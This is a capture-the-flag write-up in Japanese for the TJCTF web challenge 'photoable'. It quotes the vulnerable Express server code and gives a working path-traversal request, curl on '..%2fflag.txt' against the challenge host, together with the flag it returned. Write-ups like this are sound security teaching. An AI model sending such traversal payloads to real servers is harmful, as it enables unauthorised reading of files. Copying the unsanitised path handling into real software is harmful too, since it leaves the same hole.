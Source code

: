 # photoable:web:XXXXpts
My games always play at like 3 fps, so I thought it'd be more efficient to send individual frames rather than videos. Anyways, I'm sure my website is unhackable, and that you are never gonna find the flag on my server!  
[photoable.tjc.tf](https://photoable.tjc.tf/)  

Downloads  
[server.zip](server.zip)  

# Solution
ソースとサイトが渡される。  
Photoable  
[site1.png](site/site1.png)  
![site2.png](site/site2.png)  
![site3.png](site/site3.png)  
画像をURLを指定することで、外部からアップロードできるようだ。  
jsで動いており、拡張子チェックも十分なためアップロードしたファイル経由でのRCEは難しそうだ。  
ソースを見るとファイルの読み取りは以下のようであった。  
```js
~~~
function getFileName(uuid) {
  let ext = uuid2ext[uuid] ?? "";
  return uuid + ext;
}
~~~
app.get("/image/:imageid", (req, res) => {
  let { imageid } = req.params;

  res.render("image", {
    imagelink: `photobucket/${getFileName(imageid)}`,
    image: imageid,
  });
});

app.get("/image/:imageid/download", (req, res) => {
  let { imageid } = req.params;

  res.sendFile(path.join(__dirname, `photobucket/${getFileName(imageid)}`));
});

app.listen(8080, async () => {
  fs.readFile("flag.txt", (err, data) => console.log(`Flag loaded!`));
});
```
同一ディレクトリにあるflag.txtを読み取ることを目標とする。  
`imageid`を`getFileName`へ渡しているが、`uuid2ext`に存在しない場合、拡張子が付加されずそのままの値が返ってくる。  
`path.join`であるため、`imageid`が`../flag.txt`でパストラバーサルが可能であることがわかる。  
以下のようなリクエストを投げる。  
```bash
$ curl https://photoable.tjc.tf/image/..%2fflag.txt/download
tjctf{1fram3_1fl4g}
```
flagが得られた。  

## tjctf{1fram3_1fl4g}